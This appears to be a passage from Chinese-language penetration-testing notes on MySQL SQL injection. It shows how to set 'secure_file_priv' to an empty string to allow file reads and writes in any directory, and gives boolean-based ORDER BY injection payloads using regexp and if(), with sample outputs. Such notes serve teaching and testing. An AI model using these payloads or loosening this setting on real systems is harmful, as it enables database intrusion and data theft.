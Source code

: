 
#### 常见错误 - 写入文件失败

MySQL >= 5.7(可能更早的版本) 没有进行任何配置情况下`secure_file_priv`的默认值为`NULL` 即禁止mysqld导入或导出. 所以即使是MySQL的root用户也无法读写文件. 报错为

```
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

查看当前环境中`secure-file-priv`的值:
```
mysql> show global variables like '%secure_file_priv%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv | NULL  |
+------------------+-------+
1 row in set (0.00 sec)
```

修改secure_file_priv的值:
```
# 要修改secure_file_priv的值，必须修改配置文件并重新启动`mysqld`服务
# windows下的配置文件为`my.ini`
# linux下的配置文件为`my.cnf`

[mysqld]
secure-file-priv = ""

# 情况1 没有进行任何配置情况下，`secure_file_priv`不存在，此时使用它的默认值`NULL` 即禁止mysqld导入或导出. 
# 情况2 secure_file_priv="/tmp/" 表示mysqld只能在/tmp/目录下 导入或导出.
# 情况3 secure-file-priv = ""    表示mysqld可以在任意目录进行导入或导出.
```

### 重点检测

#### 无法使用"预编译语句"的情况 - `order by`子句

为什么`order by`无法使用"预编译语句"? 
```
# MySQL:
# order by 子句的正常使用 如
select aid,adenname from sea_myad order by adenname;

# order by 子句之后的字段名 如果使用"预编译语句" 则字段名会被加上引号 从而order by子句"失效" 即不会对结果进行排序
select aid,adenname from sea_myad order by "adenname";
```

order by注入检测 - 基于布尔的注入

```
#条件语句，条件如果是执行第二个参数，否执行第三个参数
if(condition,true,false)

# 利用regexp
mysql> select aid,adenname from sea_myad order by (select 1 regexp if(1=1,1,0x00));
+-----+-------------------+
| aid | adenname          |
+-----+-------------------+
|   1 | channel200x200bt  |
|   2 | channel200x200top |
+-----+-------------------+


mysql> select aid,adenname from sea_myad order by (select 1 regexp if(1=2,1,0x00));
ERROR 1139 (42000): Got error 'empty (sub)expression' from regexp
```